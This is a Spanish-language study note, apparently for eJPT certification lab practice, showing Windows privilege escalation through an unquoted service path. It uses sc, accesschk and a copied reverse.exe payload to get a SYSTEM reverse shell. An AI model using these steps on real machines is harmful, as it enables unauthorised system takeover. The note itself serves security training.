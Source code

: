 
- Consulta el "unquotedvc" servicio y noque se ejecuta con privilegios SYSTEM (SERVICE_START_NAME) y que el BINARY_PATH_NAME no está citado y contiene espacios.

```
sc qc unquotedsvc
```

- Usando accesschk.exe, tenga en cuenta que el grupo BUILTIN\Users puede escribir en el directorio C:\Program Files\Unquoted Path Service:  

```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

- Copiar el ejecutable de reverse.exe que creó en este directorio y lo renombró Common.exe:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

- Inicie un oyente en Kali y luego inicie el servicio para generar un shell inverso que se ejecute con privilegios SYSTEM:

```
net start unquotedsvc
```

enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Herramientas]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Service Exploits - Insecure Service Permissions]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Service Exploits - Insecure Service Executables]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Generate a Reverse Shell Executable]]